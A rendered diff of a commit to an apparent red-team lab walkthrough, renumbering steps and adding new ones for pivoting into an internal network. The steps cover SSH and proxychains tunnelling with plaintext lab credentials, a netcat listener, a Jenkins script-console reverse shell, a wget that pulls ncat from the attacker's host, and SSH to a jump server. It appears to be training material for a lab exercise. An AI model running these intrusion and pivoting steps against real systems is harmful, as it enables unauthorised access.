

Before and after one commit to brianyaucy/CWF-RedTeamAdvanced, a Markdown page: 00-Shortcut.md, the part around the change printed below. Shown: that part at 82% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/00-Shortcut.md
+++ b/00-Shortcut.md
@@ -6,7 +6,7 @@
 
 To get access to the internal network, do the following steps:
 
-1. SSH tunnel on 192.168.8.3 (Credential: `iyer` / `Iyer@123`)
+1) SSH tunnel on 192.168.8.3 (Credential: `iyer` / `Iyer@123`)
 
 ```
 sudo -u brian ssh -N -D 9050 iyer@192.168.8.3
@@ -14,7 +14,7 @@ sudo -u brian ssh -N -D 9050 iyer@192.168.8.3
 
 <br/>
 
-2. Edit `/etc/proxychains.conf`. Make sure only socks4 is enabled.
+2) Edit `/etc/proxychains.conf`. Make sure only socks4 is enabled.
 
 ```
 socks4 127.0.0.1 9050
@@ -22,11 +22,11 @@ socks4 127.0.0.1 9050
 
 <br/>
 
-3. With foxyproxy forwarding traffic to SOCK4 server 127.0.0.1:9050, login Jenkins (http://10.1.3.1:1234/) with the credential `autoadmin` / `Jenk!nsADMIN`
+3) With foxyproxy forwarding traffic to SOCK4 server 127.0.0.1:9050, login Jenkins (http://10.1.3.1:1234/) with the credential `autoadmin` / `Jenk!nsADMIN`
 
 <br/>
 
-4. Locally launch a netcat listener.
+4) Locally launch a netcat listener.
 
 ```
 nc -nlvp 443
@@ -34,7 +34,7 @@ nc -nlvp 443
 
 <br/>
 
-5. On Jenkins, go to http://10.1.3.1:1234/script. Then use the following script to get a reverse shell:
+5) On Jenkins, go to http://10.1.3.1:1234/script. Then use the following script to get a reverse shell:
 
 ```
 def sout = new StringBuffer(), serr = new StringBuffer()
@@ -46,7 +46,7 @@ println "out> $sout err> $serr"
 
 <br/>
 
-6. On the reverse shell, get ncat (https://github.com/ZephrFish/static-tools/raw/master/ncat) from the local machine:
+6) On the reverse shell, get ncat (https://github.com/ZephrFish/static-tools/raw/master/ncat) from the local machine:
 
 * Local:
 
@@ -56,12 +56,13 @@ python3 -m http.server 80
 
 * Remote:
 ```
+python -c 'import pty; pty.spawn("/bin/bash")'
 cd /tmp && wget http://192.168.100.11/ncat
 ```
 
 <br/>
 
-7. Create another HTTP proxy via SSH tunnel using ncat:
+7) Create another HTTP proxy via SSH tunnel using ncat:
 
 ```
 chmod +x ncat && ./ncat -l 4444 --proxy-type http &
@@ -73,7 +74,7 @@ ssh -R 4445:127.0.0.1:4444 brian@192.168.100.11
 
 <br/>
 
-8. Modify `/etc/proxychains.conf` to use the HTTP proxy:
+8) Modify `/etc/proxychains.conf` to use the HTTP proxy:
 
 ```
 nano /etc/proxychains.conf
@@ -86,4 +87,17 @@ http 127.0.0.1 4445
 
 <br/>
 
-9.
+9) SSH to the jump server using `jump-admin` / `B@DB!tch`:
+
+```
+proxychains ssh jump-admin@10.1.1.4
+```
+
+<br/>
+
+10) Use the Jump Server as socks4 proxy:
+
+```
+proxychains ssh -N -D 9051 jump-admin@10.1.1.4
+```
+
````
Also changed, not shown: other parts of 00-Shortcut.md (+9 -0 lines), 07-LateralMovement2.md (+1 -1 lines), 08-PostExploit-JumpServer.md (+56 -4 lines), images/059f2d9fdafc909e54b50ae66b3e3bcf71b46a81c9e0de0e92cc5089ca8fd137.png (added), images/693c3843d879f178f87c9ae2752c46b2c9cb44ba3e7bfb56687ebb61fe043ab3.png (added), images/94f3a81cc2a053f01a1dfca717c36086adadbe5aa7936ffd7af48bbb2a961c2c.png (added), images/a04a310d7895c026d1841355a8c026b003f329f628172e8112c9c36e71fd1ccc.png (added), images/de3767444862cde64ff5b95b9c74bcad0b3bcd8f91ca18f123c61efb56c84b21.png (added).
